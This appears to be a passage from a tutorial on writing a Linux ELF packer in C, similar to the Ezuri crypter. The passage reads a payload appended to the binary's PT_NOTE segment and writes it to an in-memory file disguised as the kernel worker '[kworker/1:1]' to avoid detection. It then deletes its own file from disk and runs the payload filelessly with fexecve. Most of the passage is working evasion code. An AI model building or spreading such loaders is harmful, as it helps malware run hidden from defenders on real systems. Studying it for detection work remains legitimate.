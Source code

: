 ```c
}   

if (!phdr)
    die(-1, "cannot find PT_NOTE segment to further parse");

// get attributes for PT_NOTE segment
Elf64_Off offset = phdr->p_offset;
Elf64_Xword size = phdr->p_filesz;
```

With this information, we're now able to parse out the compressed executable we've appended to the binary, and get it ready for in-memory execution. This is also a good time to incorporate any type of decryption, such as done in Ezuri with AES, but we'll leave that TODO for a future revision.

```c
// read packed executable from file offset
char data[size];
lseek(fd, 0, SEEK_SET);
lseek(fd, offset, SEEK_SET);
pread(fd, (void*) data, size, offset);
close(fd);
```

As per manpage specifications, `memfd_create` requires an identifier for the anonymous file that's to be loaded, which will appear under `/proc/self/fd/` , so we'll use play sneaky and name our eventual process as an arbitrary kernel worker thread to avoid detection:

```c
#define TEMPFILE "[kworker/1:1]"

/* safely write buffer to a given input file descriptor */
static void write_fd(int fd, const char *str, size_t len)
{
    size_t cnt = 0;
    do {
        ssize_t result = write(fd, str + cnt, MIN(len - cnt, 0x7ffff000));
        if (result == -1) 
            die(-1, "writing to memfd failed\n");
        cnt += result;
    } while (cnt != len);
}

...

// create anonymous file mocking a kernel worker thread
fd = memfd_create(TEMPFILE, 0);
if (fd == -1)
    die(fd, "cannot create in-memory fd for code");

// get rid of ourselves on disk for more sneaky evasion
if (remove(argv[0]) != 0)
    die(fd, "cannot remove self");

// write ELF data to in memory fd and execute
write_fd(fd, data, size - 1);
{
    argv[0] = TEMPFILE;
    fexecve(fd, (char * const *) argv, (char * const *) envp);
}
close(fd);
```
